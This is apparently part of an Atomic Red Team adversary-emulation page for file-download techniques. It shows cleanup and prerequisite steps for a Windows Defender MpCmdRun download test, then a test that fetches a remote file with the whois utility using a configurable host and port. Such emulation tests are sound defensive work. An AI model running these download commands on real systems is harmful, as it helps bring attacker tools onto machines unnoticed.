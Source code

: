 #### Cleanup Commands:

```cmd
del #{local_path} >nul 2>&1
del %temp%\MpCmdRun.log >nul 2>&1
```

#### Dependencies: Run with `command_prompt`!

##### Description: Must have a Windows Defender version with MpCmdRun.exe installed

##### Check Prereq Commands:

```cmd
cd "%ProgramData%\Microsoft\Windows Defender\platform\4.18*"
MpCmdRun.exe /?  >nul 2>&1
```

##### Get Prereq Commands:

```cmd
Echo "A version of Windows Defender with MpCmdRun.exe must be installed manually"
```

<br/>
<br/>

## Atomic Test #14 - whois file download

Download a remote file using the whois utility

**Supported Platforms:** Linux, macOS

**auto_generated_guid:** c99a829f-0bb8-4187-b2c6-d47d1df74cab

#### Inputs:

| Name        | Description                                    | Type    | Default Value                         |
| ----------- | ---------------------------------------------- | ------- | ------------------------------------- |
| remote_host | Remote hostname or IP address                  | string  | localhost                             |
| remote_port | Remote port to connect to                      | integer | 8443                                  |
| output_file | Path of file to save output to                 | path    | /tmp/T1105.whois.out                  |
| query       | Query to send to remote server                 | string  | Hello from Atomic Red Team test T1105 |
| timeout     | Timeout period before ending process (seconds) | integer | 1                                     |

#### Attack Commands: Run with `sh`!

```sh
timeout --preserve-status #{timeout} whois -h #{remote_host} -p #{remote_port} "#{query}" > #{output_file}
```
